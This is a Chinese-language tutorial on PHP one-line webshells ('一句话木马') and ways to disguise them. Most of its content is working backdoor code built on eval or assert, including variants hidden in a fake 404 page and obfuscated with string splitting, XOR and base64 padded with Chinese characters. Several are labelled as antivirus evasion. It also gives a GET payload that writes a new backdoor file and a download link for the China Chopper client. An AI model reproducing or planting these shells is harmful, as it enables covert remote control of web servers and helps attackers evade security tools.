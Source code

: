 ﻿# 一句话木马原理及变形技巧


![此处输入图片的描述][1]
---

1、最经典的一句话木马
-----------

    <?php @eval($_POST['c']); ?>

实现方式：定义一个执行页面并设计一个传参点，供接收外部给出的参数。$_POST[‘c’] :获取客户端提交的数据，c为参数。


----------

2、一句话木马的变形技巧之简单实例
---------------

    <?php
        $a='assert';
    array_map("$a",$_REQUEST);
    ?>

实现方式：assert函数与eval函数功能类似，array_map函数遍历request数组执行assert函数。**值得注意的是，assert函数的容错功能与array_map函数的遍历功能相结合，可以无需参数，而与request数组还是get数组无关。**

----------

3、一句话木马的变形技巧–更换数据来源
-------------------

###a、利用session（免杀）###

    <?php
     session_start();   //  启动session功能
     $_POST['code']&&$_SESSION['thecode']=trim($_POST['code']);
    
     // 如果post传过来的参数里面存有code的值，
        则把它存在$_SESSION['thecode']里面
    
     $_SESSION['thecode']&&preg_replace('\'a\'eis',
    'e'.'v'.'a'.'l'.'($_SESSION[\'thecode\'])','a');
    
    //这里preg_replace函数执行替换，但替换不是关键，
    而是传参时就执行了eval($session['thecode'])。
     ?>

 
### b、利用GET ###

    1、<?php $_GET[a]($_GET[b]); ?>//双参数调用
    
    利用方法为：
    
    ?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};
    (base64解密为<?php @eval($_POST[c]); ?>)
    
    执行后当前目录生成c.php一句话木马，当传参a为eval时会报错木马生成失败，为assert时同样报错，但会生成木马。





    2、<?php @eval($_GET[$_GET[b]]); ?>利用方法为：.php?b=cmd&cmd=phpinfo();GET获得的值为b，取b的值继续执行。

###c、利用script  ###

    <script language=”php”> @eval($_POST[b])</script>
    
    可以防止<?被过滤。


----------


4、一句话木马的变形技巧–字符替换或特殊编码
----------------------

###a、防止关键字过滤（免杀）###

    <?php
    $a=str_replace(x,””,”axsxxxxxxsxxerxxxxt”);
array_map(“$a”,$_REQUEST);
    ?>

###b、字符串组合法隐藏assert()###

    <?php
    $str=”aestr”;
$funct=$str{0}.$str{2}.$str{2}.$str{1}.$str{4}.$str{3};
    @$funct($_POST[‘c’]);
    ?>

###c、编码转换###


----------

5、几个有趣的一句话木马实例
------------
###1、404页面###
    <html>
    <head>
    <title>404 Not Found </title>
    </head><body>
    <h1>Not Found</h1>
    <p>The request URL was not found on this server.</p>
    </body>
    </html>
    <?php
    @preg_replace(“/[pageerror]/e”,$_POST[‘error’],”saft”);
    header(‘HTTP/1.1 404 Not Found’);
    ?>
###2、变形    ###

    <?php ($_=@$_GET[2]).@$_($_POST[1])?>

利用方法：  ?2=assert  密码是1

### 3、混淆 ###
    <?php
    $_="";
$_[+""]='';
    $_="$_"."";
    $_=($_[+""]|"").($_[+""]|"").($_[+""]^"");
    ?>
    <?php ${'_'.$_}['_'](${'_'.$_}['__']);?>

利用方法：    ?_=assert&__=eval($_POST['pass']) 

### 4、zend加密 ###
![此处输入图片的描述][2]


此php文件使用zend加密，php可直接解析使用，加密之前的代码为：

    <?php
    
    echo " ";
    @eval( $_POST['caidao'] );
    ?>
[下载地址][3]


###5、base64加密变形（免杀）###

    <?php
    $b=base64_decode("YXNz哈哈哈哈ZXJ0");
$a=base64_decode("QGV2YWwo惺惺惜惺惺JF9QT1NUWydjJ10pOw==");
    $b($a);
    ?>
    
在php里面base64_decode（）函数非常的有趣，因为它会把自己不认识的字符自动过滤掉，来重新组合进行解码，这里就可以利用汉字进行变形。

>  \$b为assert，\$a为@eval($_POST['c']);

###6、字符位运算拼接+加密（免杀）###

    <?php
    
    $a=(chr(19)^chr(114)).(chr(19)^chr(96)).(chr(19)^chr(96)).(chr(19)^chr(118)).(chr(19)^chr(97)).(chr(19)^chr(103)) ;
$b=(chr(19)^chr(113)).(chr(19)^chr(114)).(chr(19)^chr(96)).(chr(19)^chr(118)).(64).(chr(19)^chr(76)).(chr(19)^chr(119)).(chr(19)^chr(118)).(chr(19)^chr(112)).(chr(19)^chr(124)).(chr(19)^chr(119)).(chr(19)^chr(118));
    
    $c=$b("QGV2YWwoJF9嘻嘻嘻QT1N哈哈哈UWydjJ10pOw==");
    $a($c);
    ?>
    

> \$a为assert，\$b为base64_decode，\$c为@eval($_POST['c']);


  [1]: http://www.xfcxc.top/Adgainai4/test.png
  [2]: http://www.xfcxc.top/Adgainai4/caidao.jpg
  [3]: https://www.webshell.cc/wp-content/uploads/2012/04/caidao.zip
  
综上所述，虽然有一些方法没有躲掉杀软的扫描，但是将他们组合起来还是有很大机会成功的。